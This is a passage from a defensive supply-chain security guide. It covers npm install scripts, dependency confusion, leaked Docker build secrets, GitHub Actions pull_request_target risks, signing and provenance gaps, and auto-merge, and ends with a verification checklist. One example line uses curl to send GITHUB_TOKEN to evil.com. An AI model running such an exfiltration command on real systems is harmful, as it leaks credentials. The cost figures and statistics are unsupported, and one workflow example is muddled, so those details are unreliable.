- **`npm install` without `--ignore-scripts` runs arbitrary post-install scripts.** Every npm package can execute arbitrary code during installation via `postinstall`, `preinstall`, and `install` lifecycle scripts. A malicious package at any depth in your dependency tree can exfiltrate environment variables, SSH keys, and `.npmrc` tokens during `npm install`. 17% of all npm malware uses lifecycle scripts as the attack vector. **Total cost: $150K-$1.5M — a compromised npm package with a postinstall script exfiltrates CI secrets (GITHUB_TOKEN, NPM_TOKEN, AWS keys) during a routine `npm ci` in CI; the attacker uses the stolen credentials to push malicious releases to your npm registry and pivot to your AWS infrastructure.** **Fix:** add `ignore-scripts=true` to `.npmrc` for CI environments; only allow scripts for explicitly trusted packages via `--ignore-scripts=false <package>`. Audit lifecycle scripts in lockfiles with `npm ls --json | jq '.dependencies[] | select(.scripts.postinstall)'`.

- **`pip install --extra-index-url` with a private feed falls back to PyPI for packages not found in the private feed.** This is the classic dependency confusion vector. An attacker publishes `mycompany-internal-lib` on PyPI with a higher version than your private package. Pip checks the private index, doesn't find the exact version, falls back to PyPI, and installs the malicious package. **Total cost: $250K-$3M — an attacker performs dependency confusion against a fintech's CI pipeline, publishing packages matching internal library names to PyPI; the malicious code exfiltrates database credentials during integration tests, leading to a production database breach with 500K+ customer financial records exposed.** **Fix:** use `--index-url=<private>` (not `--extra-index-url`) to make the private registry the ONLY source; if you must use PyPI as a fallback, namespace internal packages and configure package-specific index URLs.

- **`docker build` with `--build-arg` exposes secrets in the image layer history.** `docker build --build-arg GITHUB_TOKEN=$TOKEN` passes the token as a build argument. The build argument value is persisted in the image manifest and visible via `docker history --no-trunc`. Anyone with access to the image (including via a public registry) can extract the token. **Fix:** use Docker BuildKit secrets: `RUN --mount=type=secret,id=github_token`, or use OIDC-based authentication that generates short-lived tokens within the build step — never pass secrets as build args.

- **GitHub Actions `pull_request_target` event runs workflow from the base branch with full repository secrets.** The `pull_request_target` event checks out the workflow definition from the base branch (not the PR) BUT executes in the context of the base repository — meaning a PR that changes a workflow file to `run: curl https://evil.com/${{ secrets.GITHUB_TOKEN }}` will NOT use the modified workflow (it uses the base), but if the base workflow already trusts untrusted PR input in `run:`, the attack succeeds. **Total cost: $300K-$4M — an attacker submits a PR to a public repo that modifies test inputs fed to a `pull_request_target` workflow; the base workflow's `run: npm test ${{ github.event.inputs.extra_args }}` evaluates the attacker's input, exfiltrating the GITHUB_TOKEN and AWS credentials via a DNS exfiltration channel; the attacker then pushes malicious releases and accesses production infrastructure.** **Fix:** never use `${{ github.event.pull_request.head.ref }}` or any PR-controlled input in `run:` commands within `pull_request_target` workflows. Check out PR code ONLY with `ref: ${{ github.event.pull_request.head.sha }}` and treat it as untrusted.

- **SLSA provenance generated by GitHub Actions `slsa-github-generator` that doesn't isolate the build from network access produces non-hermetic attestations.** A non-hermetic build can download dependencies at build time, and those dependencies can change between builds — meaning the same source commit can produce different artifacts. This breaks reproducibility and undermines provenance trust. SLSA L2 requires hermetic builds. **Total cost: $100K-$800K — a non-hermetic build downloads a compromised dependency at build time that a hermetic build would have caught (because the dependency hash changed). The artifact passes signature verification because it was legitimately signed by your CI, but contains code you never reviewed. Auditor discovers the provenance gap during a SOC 2 Type II audit, resulting in a qualified opinion and $200K+ in re-audit costs.** **Fix:** pre-resolve all dependencies before the build step (vendor Go modules, cache npm packages, pre-download pip wheels), use `--network=none` in Docker builds, and verify that the build produces bit-for-bit identical output on rerun.

- **`cosign verify` on a container image succeeds, but the image was signed from a compromised CI runner that also signed legitimate images.** Signature verification confirms the signing identity, not the artifact's integrity. A compromised runner with valid OIDC credentials will produce valid signatures — and `cosign verify` will pass. **Total cost: $500K-$5M — an attacker signs a backdoored image with your own valid signing identity, bypasses admission control, and deploys malware to production; detection is nearly impossible because the signature is valid.** **Fix:** verify provenance, not just signature: `cosign verify-attestation --type slsaprovenance` confirms the build environment, source commit, and build steps. Monitor Rekor for unexpected signatures on your images. Run the build in an isolated, immutable environment.

- **A dependency with a `CVE-2024-XXXX` that is marked "disputed" by the maintainer may actually be exploitable in your context.** Maintainers sometimes dispute CVEs because the vulnerability requires unusual configuration — but your configuration might be exactly the unusual one. 12% of disputed CVEs are later confirmed exploitable by independent researchers. **Total cost: $100K-$1M — you dismiss a disputed CVE in an auth library, but your OAuth flow uses the exact edge case the CVE describes; an attacker chains it with another low-severity bug to achieve account takeover.** **Fix:** evaluate disputed CVEs independently — don't trust the maintainer's dispute at face value. Read the CVE report, understand the vulnerable code path, and determine if your usage triggers it. Document your assessment.

- **Dependabot/Renovate auto-merge configured with `auto-merge: true` for "patch" updates can ship compromised dependency updates.** An attacker who compromises an npm maintainer account publishes a new "patch" version (e.g., 1.2.3 → 1.2.4) containing a backdoor. Dependabot opens a PR, your CI passes (the backdoor is stealthy), and auto-merge ships it to production within minutes. **Total cost: $200K-$2M — a malicious patch update to a widely-used library reaches your production deployment via automated merging before any human reviews it; the attacker now has code execution in your production environment.** **Fix:** never auto-merge dependency updates that touch production. Require human review on all dependency PRs. Use Dependabot's `open-pull-requests-limit` to batch updates. Configure CI to run full integration tests — not just unit tests — against updated dependencies before merge.

## Verification

- [ ] Run SBOM generation: `syft <image> -o spdx-json` or `trivy fs --format spdx-json .` — SBOM produced with NTIA minimum elements
- [ ] Verify SLSA provenance: `slsa-verifier verify-artifact <artifact> --source-uri <repo> --source-tag <tag>` — provenance verified
- [ ] Verify container signature: `cosign verify --certificate-identity-regexp <repo> --certificate-oidc-issuer=<issuer> <image>` — signature valid
- [ ] Check Rekor transparency log: `rekor-cli search --artifact <digest>` — entry found and timestamp valid
- [ ] Run full-depth dependency scan: `npm audit --all` / `trivy fs .` / `osv-scanner .` — zero critical CVEs with reachable code paths
- [ ] Test dependency confusion: attempt `pip install --index-url=<private> --extra-index-url=<public> <internal-package>` — only private registry is used, no public fallback
- [ ] Test typosquatting detection: run Levenshtein distance check on all dependencies against known malicious package names — no matches within distance 2
- [ ] Verify CI secret scanning: commit a test secret (e.g., `TEST_SECRET=test123`) to a branch — pre-commit hook blocks it
- [ ] Verify branch protection: attempt direct push to `main` — rejected; attempt merge without PR — rejected; attempt merge without signed commit — rejected
- [ ] Verify OIDC-only auth: confirm no long-lived tokens exist in CI configuration — all cloud access uses OIDC federation

## References
<!-- QUICK: 30s -- links to deeper reading -->

Detailed reference material loaded on demand:

- **Anti-Patterns**: See [anti-patterns.md](references/anti-patterns.md)
- **Best Practices**: See [best-practices.md](references/best-practices.md)
- **Calibration — How to Know Your Level**: See [calibration.md](references/calibration.md)
- **Production Checklist**: See [checklist.md](references/checklist.md)
- **Error Decoder**: See [error-decoder.md](references/error-decoder.md)
- **Footguns**: See [footguns.md](references/footguns.md)
- **Scale Depth: Solo → Small → Medium → Enterprise**: See [scale-depth.md](references/scale-depth.md)
- **Sub-Skills**: See [sub-skills.md](references/sub-skills.md)

- SLSA Framework: <https://slsa.dev/spec/v1.0/levels>
- Sigstore Documentation: <https://docs.sigstore.dev/>
- in-toto Specification: <https://in-toto.io/>
- SPDX Specification 3.0: <https://spdx.github.io/spdx-spec/v3.0/>
- CycloneDX Specification 1.6: <https://cyclonedx.org/specification/overview/>
- OWASP Top 10:2025 — A03:2025 Supply Chain Risks: <https://owasp.org/Top10/A03_2025-Supply_Chain_Risks/>
- NIST Secure Software Development Framework (SSDF): <https://csrc.nist.gov/projects/ssdf>
- CISA Secure Software Development Attestation: <https://www.cisa.gov/secure-software-development-attestation-form>
- EU Cyber Resilience Act: <https://digital-strategy.ec.europa.eu/en/policies/cyber-resilience-act>
- US Executive Order 14028: <https://www.whitehouse.gov/briefing-room/presidential-actions/2021/05/12/executive-order-on-improving-the-nations-cybersecurity/>
- OpenSSF Scorecard: <https://securityscorecards.dev/>
- GitHub Supply Chain Security: <https://docs.github.com/en/code-security/supply-chain-security>
- CNCF Software Supply Chain Best Practices: <https://project.linuxfoundation.org/hubfs/CNCF_SSCP_v1.pdf>
